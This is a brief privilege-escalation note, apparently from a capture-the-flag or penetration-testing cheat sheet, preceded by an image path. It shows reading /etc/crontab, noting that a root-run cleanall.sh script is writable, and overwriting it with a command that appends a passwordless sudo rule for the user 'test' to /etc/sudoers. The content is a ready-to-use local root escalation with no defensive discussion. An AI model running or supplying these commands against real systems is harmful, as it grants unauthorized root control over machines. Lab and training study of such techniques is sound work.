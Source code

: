 # Writable script in /etc/crontab

```
cat /etc/crontab
```

Every 5 min, the cleanall.sh script execute by root.

And we have enough permission to write that file.

We are test user. So we can add root privileges to this account.

```
echo "echo \"test ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers" > cleanall.sh
```
